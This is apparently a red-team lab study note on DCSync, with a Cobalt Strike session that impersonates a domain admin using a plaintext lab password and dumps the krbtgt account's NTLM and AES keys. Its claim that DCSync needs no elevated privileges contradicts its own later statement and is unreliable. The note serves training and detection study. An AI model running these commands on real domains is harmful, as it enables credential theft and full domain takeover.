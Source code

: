 The [Directory Replication Service (MS-DRSR) protocol](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-drsr/f977faaa-673e-4f66-b9bf-48c640241d47) is used to synchronise and replicate Active Directory data between domain controllers.

DCSync is a technique used particularly in the context of [[Active Directory]] environments, to retrieve password data from a [[Domain Controller]] without requiring elevated privileges or directly interacting with the targeted user's account. 

DCSync is a feature within the [[Mimikatz]] toolkit.


## 🖊️ How it works

1. **Domain Controller Interaction**: Mimikatz uses DCSync to interact with the domain controller's replication protocol, which is used to synchronize data between domain controllers in an Active Directory environment.
    
2. **Password Retrieval**: With DCSync, an attacker can request password data for a specified user account from the domain controller. This includes the password hash ([[NetNTLM]] or [[Kerberos]]) and other relevant information associated with the account.
    
3. **Low-Level Access**: Unlike traditional methods of password retrieval, such as credential dumping or brute force attacks, DCSync does not require elevated privileges or direct access to the target user's account. Instead, it leverages the domain controller's replication mechanism, making it a stealthy and effective technique for obtaining password data.

  This requires [GetNCChanges](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-drsr/b63730ac-614c-431c-9501-28d6aca91894) which is usually only available to domain admins.  The technique is included here for completeness, and it will be useful later on.

## 🖊️ via [[Cobalt Strike]]

1) Beacon has a dedicated `dcsync` command, which calls `mimikatz lsadump::dcsync` in the background.

```
beacon> make_token DEV\nlamb F3rrari

beacon> dcsync dev.cyberbotic.io DEV\krbtgt
[DC] 'dev.cyberbotic.io' will be the domain
[DC] 'dc-2.dev.cyberbotic.io' will be the DC server
[DC] 'DEV\krbtgt' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : krbtgt

Credentials:
  Hash NTLM: 9fb924c244ad44e934c390dc17e02c3d
    ntlm- 0: 9fb924c244ad44e934c390dc17e02c3d
    lm  - 0: 207d5e08551c51892309c0cf652c353b
		
* Primary:Kerberos-Newer-Keys *
    Default Salt : DEV.CYBERBOTIC.IOkrbtgt
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 51d7f328ade26e9f785fd7eee191265ebc87c01a4790a7f38fb52e06563d4e7e
      aes128_hmac       (4096) : 6fb62ed56c7de778ca5e4fe6da6d3aca
      des_cbc_md5       (4096) : 629189372a372fda
```

Here we have extracted the NTLM and AES keys for the krbtgt account using _nlamb_ (a domain admin).

### ⚠ Opsec

Directory replication can be detected if Directory Service Access auditing is enabled.

### Properties
---
📆 created   {{10-02-2024}} 21:57
🏷️ tags: #activedirectory #redteam #crto 

---

